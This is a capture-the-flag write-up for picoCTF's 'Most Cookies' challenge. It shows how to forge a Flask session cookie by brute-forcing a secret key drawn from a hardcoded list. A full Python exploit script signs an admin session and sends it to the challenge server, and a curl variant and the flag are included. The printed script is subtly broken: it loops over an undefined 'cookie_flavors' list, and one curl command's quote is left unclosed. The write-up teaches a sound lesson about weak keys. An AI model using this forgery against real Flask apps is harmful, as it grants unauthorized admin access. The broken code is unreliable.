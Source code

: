 # Most Cookies
### Authored by Katrina Lee

![image](challenge.PNG)

## Think

It's another cookie manipulation challenge!! Woo-hoo! To learn the basics of cookie manipulation with Chrome DevTools, take a look at [my writeup](../Cookies/README.md) for the `Cookies` challenge.

Okay. We know that the server is using [Flask session cookies](https://overiq.com/flask-101/sessions-in-flask/), so let's do some research on how they are encrypted and how secure they are. The cookie is divided into three parts, each separated by a period. Looking at `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YFJUTg.P2yjtXbLscemve2adpeyuJA3WBU`, for example, we have:
* `eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9` - **session data** - a dictionary encoded in [Base64](https://www.base64decode.org/)
* `YFJUTg` - **timestamp**, which tells the server when the data was last updated
* `P2yjtXbLscemve2adpeyuJA3WBU` - **[SHA-1 cryptographic hash](https://en.wikipedia.org/wiki/SHA-1)** - calculated using the session data, timestamp, and secret key (`app.secret_key` in the Flask app script)

Aha! There's the vulnerability! The "secure" Flask cookie is only as secure as its secret key. If we know the secret key, we can generate a cookie with our own session data, tricking the server into thinking that it's valid.

Great. Now, let's peek into the [server.py](server.py) file provided to see if we can figure out the secret key. On lines 6 - 7, we have the following code:
```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
app.secret_key = random.choice(cookie_names)
```
It seems that the secret key is simply being generated by randomly selecting a cookie name from the `cookie_names` list! Well, that's wonderful, because all we have to do is try each of the cookie names as the secret key until one of them is considered valid!

Let's keep looking through `server.py`. Nothing really stands out until we get to the `flag()` function at line 43. If we request the `/display` endpoint - simply by visiting the provided URL with `/display` at the end (`http://mercury.picoctf.net:6259/display`) - the server checks to see if the `very_auth` key in the `session` dictionary has a value of `admin`. So, the (decoded) session cookie should look like this: `{"very_auth": "admin"}`. If this requirement is met, then we get the flag! Awesome!

If we do a little more research on how Flask session cookies are signed and hashed, we'll come across one major thing: the cookie is [salted](https://en.wikipedia.org/wiki/Salt_(cryptography)) with a known string: "cookie-session". Not very secure.

## Solve

Okay, now let's write a script to get our modified session. Reminder: for every module that you do not yet have installed on your system, make sure to install it with `pip`, a package manager. For example, type `python3 -m pip install itsdangerous` into the terminal.

First, we need to import a couple of modules:
* `from itsdangerous import TimestampSigner as tsigner, URLSafeTimedSerializer as serializer, Signer` - to unsign the old session and sign the new one with timestamps
* `from flask.json.tag import TaggedJSONSerializer` - to create a new session
* `import hashlib` - to encrypt with session with a SHA-1 hash
* `import requests` - in my [writeup](../Cookies/README.md) for the `Cookies` challenge, I used the `urllib` module to work with HTTP requests, so I'll show you how to do it with `requests` for this challenge

Let's set our `URL` and `data` constants:
```
URL = "http://mercury.picoctf.net:6259/"
data = {"very_auth": "admin"}
```
Let's also copy & paste the `cookie_names` list from `server.py`
```
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
```

Okay now, let's get our original session cookie so we can unsign and validate it. There are many ways we can go about this:
1. [DevTools](../Cookies/README.md)
2. [EditThisCookie](https://chrome.google.com/webstore/detail/editthiscookie/fngmhnnpilhplaeedifhccceomclgfbg?hl=en) - visit the website and use this browser extension to see the cookies
3. [Burp Suite](https://portswigger.net/burp)
4. [cURL](https://curl.se/docs/manpage.html) - if you're on Linux, make a curl request to the server and retrieve the request headers with `curl -v http://mercury.picoctf.net:6259/`

For each of the above methods, once you acquire the cookie value, simply copy & paste it into the script: `old_session = eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.YFJUTg.P2yjtXbLscemve2adpeyuJA3WBU`. Keep in mind that the session cookie (and thus, the secret key) seems to change periodically, so don't just copy this one here.

5. Python (recommended) - dynamically retrieve cookie value with a `Session` object
```
s = requests.Session()
s.get(URL)
old_session = s.cookies.get_dict()["session"]
```

Now, let's loop through each cookie in `cookie_name`, create a signature with the cookie name as the secret key, and unsign that signature. If this process raises no errors (meaning the unsigning was successful), then we can break out of the loop and use this cookie name as our secret key:
```
for secret in cookie_flavors:
    try:
        signature = tsigner(secret_key=secret, salt="cookie-session", key_derivation="hmac", digest_method=hashlib.sha1).unsign(old_session)
    except:
        continue
    break
```

Then, with our newly-acquired secret key and the session data, we can create a new session cookie using a similar process:
```
new_session = serializer(
    secret_key=secret,
    salt="cookie-session",
    serializer=TaggedJSONSerializer(),
    signer=tsigner,
    signer_kwargs={
        "key_derivation":"hmac",
        "digest_method":hashlib.sha1
    }
).dumps(data)
```

Lastly, we want to make another HTTP GET request to the website with `new_session` as the new session cookie and print out the response.
```
response = requests.get(URL, cookies=dict(session = new_session))
print(response.text)
```
Note: According to line 16 of `server.py`, the website redirects to the `/display` route if the value of the `very_auth` key in the `session` dictionary is not `blank`. Recall the `data` variable we defined earlier: `data = {"very_auth": "admin"}`. As you can see, `very_auth` is not `blank`. So we can simply request the `/` root, using the same `URL` variable we defined earlier; there is no need to specifically request the `/display` endpoint, since we will be redirected there anyways.

We can now run this script like so: `python3 most_cookies.py`. The alternative is to make the script print out the new session, and use `curl -v http://mercury.picoctf.net:6259/display -H 'Cookie: session={new_session}` to make the HTTP request.

And...we got the flag! `picoCTF{pwn_4ll_th3_cook1E5_5f016958}`

## Resources

* [How Secure Is The Flask User Session? - miguelgrinberg.com](https://blog.miguelgrinberg.com/post/how-secure-is-the-flask-user-session)
* [Baking Flask cookies with your secrets | by Luke Paris | Paradoxis](https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce)

You can find the full script below or [here](most_cookies.py) as a file.

```
from itsdangerous import TimestampSigner as tsigner, URLSafeTimedSerializer as serializer, Signer
from flask.json.tag import TaggedJSONSerializer
import hashlib
import requests

URL = "http://mercury.picoctf.net:6259/"
data = {"very_auth": "admin"}

cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

s = requests.Session()
s.get(URL)
old_session = s.cookies.get_dict()["session"]

for secret in cookie_flavors:
	try:
		signature = tsigner(secret_key=secret, salt="cookie-session", key_derivation="hmac", digest_method=hashlib.sha1).unsign(old_session)
	except:
		continue
	break

new_session = serializer(
	secret_key=secret,
	salt="cookie-session",
	serializer=TaggedJSONSerializer(),
	signer=tsigner,
	signer_kwargs={
		"key_derivation":"hmac",
		"digest_method":hashlib.sha1
	}
).dumps(data)

response = requests.get(URL, cookies=dict(session = new_session))
print(response.text)
```
